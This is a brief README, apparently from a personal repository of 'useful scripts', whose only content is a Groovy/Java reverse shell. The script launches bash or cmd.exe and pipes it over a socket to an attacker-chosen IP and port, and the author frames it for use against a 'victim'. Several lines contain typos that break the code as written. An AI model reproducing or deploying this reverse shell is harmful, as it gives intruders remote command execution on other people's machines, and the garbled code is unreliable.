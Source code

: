 # Cool-Scripts
Here there are some useful scripts that come to my mind. 

### Groovy reverse listener script(Java)
Make sure u use the correct route (Depends if victim is Windows or Linux)

```
String host="{YOUR_IP}";
int port={THE PORT U WANT TO USE};
String cmd="/bin/bash"; <-LINUX ----- WINDOWS -> String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=newSocket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStreampo=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush();po.flush();Thread.sleep(50);
  try{
     p.exitValue();
     break;
     }
  catch (Exception e){}
  };
  p.destroy();
s.close();
```
